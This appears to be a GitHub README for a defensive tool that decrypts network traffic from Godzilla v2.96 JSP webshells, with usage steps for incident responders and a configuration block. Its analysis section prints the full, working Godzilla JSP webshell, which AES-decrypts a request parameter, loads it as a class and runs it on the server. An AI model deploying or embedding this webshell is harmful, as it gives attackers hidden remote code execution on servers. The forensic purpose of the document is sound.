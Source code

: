 #kingkong

Decrypt Godzilla-V2.96 webshell management tool traffic

**Currently only supports jsp type webshell traffic decryption**

#Usage

1. Obtain the webshell sample uploaded to the server by the attacker
![01decodeunicode.png](./docs/01decodeunicode.png)
2. Obtain traffic packages such as wireshark. Generally, Party A has a full-traffic mirroring device such as Kelai. Contact the operation and maintenance personnel to obtain it. Here, we take `test.papng` as an example.
![02wireshark package.png](./docs/02wireshark package.png)
3. Export all http objects and place them in folders
![03Export object.png](./docs/03Export object.png)
![04ExportObject.png](./docs/04ExportObject.png)
4. Edit the `kingkong.py` script, find the line `#config`, and configure the obtained sample password, key, and the folder path just now
![](./docs/05configuration.png)
5. py -2 kingkong.py
![](./docs/06Decrypted Traffic.png)

#Config

```
#config
#Configure webshell key
key = '3c6e0b8a9c15224a'
#Configure the password of webshell
password = 'pass'
#Configure the path for wireshark to export http objects
filepath = '.'
#Whether the configuration is jsp+base64, set False to decrypt JAVA_AES_RAW traffic, set True to decrypt JAVA_AES_BASE64 traffic
isbase64 = False
```

#Analysis

1. Format the generated webshell

```java
<%!
String xc="3c6e0b8a9c15224a"; //md5("key")[0:16]
String pass="pass"; //get parameters
String md5=md5(pass+xc); //Response delimiter
class X extends ClassLoader
     {
         public X(ClassLoader z)
         {
             super(z);
         }
         public Class Q(byte[] cb)
         {
             return super.defineClass(cb, 0, cb.length);
         }
     }


     //aes decryption
     public byte[] x(byte[] s,boolean m)
     {
         try{
             javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");
             c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));
             return c.doFinal(s);
             }catch (Exception e)
             {
                 return null;
             }
     }
     //md5 16-digit uppercase
     public static String md5(String s) {
         String ret = null;
         try {
             java.security.MessageDigest m;
             m = java.security.MessageDigest.getInstance("MD5");
             m.update(s.getBytes(), 0, s.length());
             ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
             } catch (Exception e) {}
             return ret;
     }


     //base64 encoding
     public static String base64Encode(byte[] bs) throws Exception
     {
         Class base64;
         String value = null;
         try {
             base64=Class.forName("java.util.Base64");
             Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
             value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) { try { base64=Class.forName("sun.misc.BASE64Encoder");
             Object Encoder = base64.newInstance();
             value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) { }}return value;
     }


     //base64 decoding
     public static byte[] base64Decode(String bs) throws Exception
     {
         Class base64;
             byte[] value = null;
         try {
                 base64=Class.forName("java.util.Base64");
                 Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                 value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
             }
         catch (Exception e)
             {
             try {
                     base64=Class.forName("sun.misc.BASE64Decoder");
                     Object decoder = base64.newInstance();
                     value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
                 }
             catch (Exception e2)
                 {


                 }
             }
             return value;
     }
%>
<%
try{
         byte[] data=base64Decode(request.getParameter(pass));
         data=x(data, false);
         if (session.getAttribute("payload")==null)
         {
             session.setAttribute("payload",new X(pageContext.getClass().getClassLoader()).Q(data));
         }else
         {
                     request.setAttribute("parameters", new String(data));
                     Object f=((Class)session.getAttribute("payload")).newInstance();
                     f.equals(pageContext);
                     response.getWriter().write(md5.substring(0,16));
                     response.getWriter().write(base64Encode(x(base64Decode(f.toString()), true)));
                     response.getWriter().write(md5.substring(16));
         }
     }catch (Exception e)
         {


         }
%>
```

2. You can see that there are mainly base64 encoding and decoding, aes decryption, and md5 hash functions.
Focus on the key parameters:
```
String xc="3c6e0b8a9c15224a";
```

3. This parameter is defined by the "key" parameter in the generated webshell. The specific value is:
```
md5(xc)[0:16]
```
4. After the webshell client receives the instruction issued by the server, it performs base64 decoding. After the AES decryption process is completed, a response message is generated. The message structure is:
```
md5(pass+xc)[0:16]+base64 encoded Trojan execution result+md5(pass+xc)[16]
```
